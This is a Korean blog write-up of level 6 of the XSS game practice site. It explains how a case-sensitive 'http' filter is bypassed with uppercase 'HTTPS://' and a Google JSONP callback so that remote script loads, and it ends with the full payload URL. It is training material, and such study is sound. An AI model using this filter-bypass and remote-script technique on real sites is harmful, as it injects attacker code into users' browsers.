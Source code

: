 ```html
  </body>
</html>
```

script 소스코드를 살펴보니 아래와 같은 매커니즘으로 동작하고 있었다.  

```
1. URL에서 # 뒤의 값을 가져와 url 변수에 저장  
2. url 변수에서 https:// 형태의 값이 있는지 검사  
3. 만약 https:// 형태의 값이 있을 경우, Sorry, cannot load a URL containing "http" 출력하고 종료  
4. 필터링을 통과 할 경우 해당 url에 있는 script 코드를 그대로 load  
```

따라서 외부의 링크에서 악성 스크립트 코드를 생성 해 # 뒤에 넘겨주면 이를 그대로 실행 해 준다.  

이 때 `http://` 혹은 `https://`에는 필터링이 있으므로 외부의 악성 스크립트 코드 주소에서 해당 값은 없어야 한다.  

필터링을 하는 부분을 잘 살펴보면, 정규표현식의 형태로 되어있다.  

그런데 소문자에 대해서는 필터링이 있지만, http중 한 글자라도 대문자가 있으면 필터링에 걸리지 않는다.  

이에 외부의 링크에서 `alert` 창을 띄울 수 있는 script 코드를 구현한 후, `http` 대신 대문자로 `HTTP`를 사용 해 # 뒤에 넘겨주면 된다.  

먼저 `alert`를 띄울 수 있는 스크립트 코드를 `test.js`라는 이름으로 아래와 같이 구현했다.  

```js
alert(1);
```

이 후 # 뒤에 `HTTP://내서버의주소/test.js`를 전달 해 주었는데, 제대로 작동하지 않았다.  

`Sorry, I can't navigate the frame to that URL` 이라는 alert 창만 떴다.  

그래서 이 문제는 힌트를 참고하게 되었다.  

4번째 힌트를 보면 아래와 같은 내용이 있다.  

```
4. If you can't easily host your own evil JS file, see if google.com/jsapi?callback=foo will help you here.
```

힌트에 따라 `google.com/jsapi?callback=foo`에 접속 해 보았더니 코드가 있었다.  

그런데 하단에 아래와 같이 `foo()` 함수를 호출하는데, 이때 foo는 `callback`의 값으로 넘어간 값이었다.  

![]({{ site.baseurl }}/images/xssgame/xssgame_16.PNG)

이에 `foo` 대신 `alert`를 넘겨주면 소스코드의 하단에서 `foo();` 대신 `alert();`를 호출하지 않을까 싶어 `alert`를 넘겨주어 보았다.  

![]({{ site.baseurl }}/images/xssgame/xssgame_17.PNG)

예상대로 `alert();`를 호출하게 된다.  

이에 해당 URL에서 `http://`를 대문자로 바꾸어 문제의 # 뒤에 전달 해 주었다.  
```
http://xss-game.appspot.com/level6/frame#HTTPS://www.google.com/jsapi?callback=alert
```

그 결과 드디어 마지막 문제를 풀 수 있었다.  
